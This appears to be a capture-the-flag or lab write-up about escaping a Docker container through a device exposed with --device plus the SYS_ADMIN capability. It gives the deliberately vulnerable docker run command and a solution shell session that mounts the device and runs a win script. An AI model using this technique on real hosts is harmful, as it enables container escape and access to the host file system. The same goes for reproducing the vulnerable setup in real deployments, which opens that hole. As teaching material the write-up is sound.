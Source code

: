 # Dangerous device mount

Docker has built-in flag _--device_ which allows devices to be run inside a container. This way, _--privileged_ flag does not need to be used. When combined with _SYS_ADMIN_ capability, device can be also mounted, and therefore interaction between another file system takes place. Mounting a device itself is not dangerous if the device is for example a pendrive or external hard drive, but mounting internal drive which is used by host system can help attackers to escape from a container.

## Description

Prepared device is a virtual disk in `.iso` format, which is mounted as a loop device. In real environment, it could be /dev/sda when whole system areagit would be accessible. Due to the fact of how the platform is constructed, many different possibilities for disk creation could not be used. Additional information can be found in `create_disk.sh` file.

Docker is run with following command:
```
docker run --device={loop}:/dev/s3cur3 --cap-add='SYS_ADMIN' -p {port}:8081 -d --restart unless-stopped vuln
```
where {loop} is a /dev/loopX device which will be mounted as /dev/s3cur3.

Docker run with this command has this device available in its /dev. Additionally, SYS_ADMIN capability allows to use `mount` command.

## Solution

```
root@c9a6d5d0c7b7:/# ls /dev
core  fd  full  mqueue  null  ptmx  pts  random  s3cur3  shm  stderr  stdin  stdout  tty  urandom  zero
root@c9a6d5d0c7b7:/# mkdir /mnt/drive
root@c9a6d5d0c7b7:/# mount /dev/s3cur3 /mnt/drive
root@c9a6d5d0c7b7:/# cd /mnt/drive
root@c9a6d5d0c7b7:/mnt/drive# ls
RUN_ME_TO_WIN.sh  lost+found
root@c9a6d5d0c7b7:/mnt/drive# ./RUN_ME_TO_WIN.sh
root@c9a6d5d0c7b7:/mnt/drive# ls
RUN_ME_TO_WIN.sh  VICTORY  lost+found
root@c9a6d5d0c7b7:/mnt/drive# 
```
